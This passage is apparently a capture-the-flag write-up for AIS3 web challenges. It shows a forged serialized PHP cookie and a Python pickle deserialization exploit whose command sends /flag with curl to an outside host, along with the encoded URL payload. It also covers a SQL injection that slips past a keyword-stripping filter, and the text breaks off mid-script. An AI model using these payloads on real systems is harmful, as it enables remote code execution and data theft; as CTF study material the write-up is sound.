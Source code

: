 Set cookie:
`elephant_user:
Tzo0OiJVc2VyIjoyOntzOjQ6Im5hbWUiO3M6NjoiZ2lub2FoIjtzOjExOiIAVXNlcgB0b2tlbiI7YTowOnt9fQ==`

Get flag

### 🐍Snake


Pickle deserialization vulnerability
```lua=py
import base64
import pickle
class RCE:
	def __reduce__(self):
		cmd = ('curl --data "@/flag" http://ginoah.com:1337')
		return __import__('os').system, (cmd,)


pickled = pickle.dumps(RCE())
print(base64.b64encode(pickled))
```

Final payload:
```
https://snake.ais3.org/?data=gANjcG9zaXgKc3lzdGVtCnEAWCsAAABjdXJsIC0tZGF0YSAiQC9mbGFnIiBodHRwOi8vZ2lub2FoLmNvbToxMzM3cQGFcQJScQMu
```
will send /flag to ginoah.com:1337


### 🦉Owl


WAF:
```lua=php
$bad = [' ', '/*', '*/', 'select', 'union', 'or', 'and', 'where', 'from', '--'];
$username = str_ireplace($bad, '', $username);
$username = str_ireplace($bad, '', $username);
querySingle("SELECT * FROM users WHERE username = '$username' AND password = '$hash'", true);
```
Then:
`'ssselectelectelect' => 'select'`

SQLi, save username to $user, Login, show $user.
=> Union base!

```lus=py
import requests

url = 'https://turtowl.ais3.org/?action=login'
nurl = 'https://turtowl.ais3.org'
se = "ssselectelectelect"
fr = "fffromromrom"
wh = "wwwhereherehere"
un = "uuunionnionnion"
OR = "ooorrr"

for i in range(100):
	myobj = {
		'csrf_token': 'LDFEAAdjQOZc/3lLvfLkTn+37QZLBLEqmNigSWdn8AKFtmb4Vu32THAbB3l97xr+bP9Tgl8qCu7J05r3W4/huw==',
		'username':f"""'{un} {se} null, value, null {fr} garbage limit {i}, 1;""".replace(' ', '\n'),
		'password':'1',
		'submit':'Login'
	}

```